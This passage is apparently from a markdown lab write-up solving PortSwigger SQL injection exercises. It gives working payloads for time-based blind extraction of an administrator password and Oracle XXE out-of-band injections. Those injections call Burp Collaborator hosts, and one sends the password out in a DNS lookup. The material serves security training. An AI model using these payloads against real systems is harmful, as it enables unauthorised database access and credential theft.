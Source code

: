 ```

```
Cookie: TrackingId=JnyshbWFVfxR22KS'%3bSELECT+CASE+WHEN+((SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username+%3d+'administrator')%3d'a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--;
```

- in intruder window, don't forget to select `Response received` column from Columns

---

## Lab - 15: Blind SQL injection with out-of-band interaction

```
|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://zmpjftuwme4wsr9drz9s8v4ozf57tw.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
```

---

## Lab - 16: Blind SQL injection with out-of-band data exfiltration

- The database contains a different table called `users`, with columns called `username` and `password`

- check in the Burp Collaborator

```
|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://5tzp6wnc0xg3ehq5kb79zl559wfm3b.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
```

- find the password of the administrator

```
|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username = 'administrator')||'.5tzp6wnc0xg3ehq5kb79zl559wfm3b.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
```

---

## Lab 17: SQL injection with filter bypass via XML encoding

- This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

- The database contains a users table, which contains the usernames and passwords of registered users.

```
POST /product/stock HTTP/1.1
...
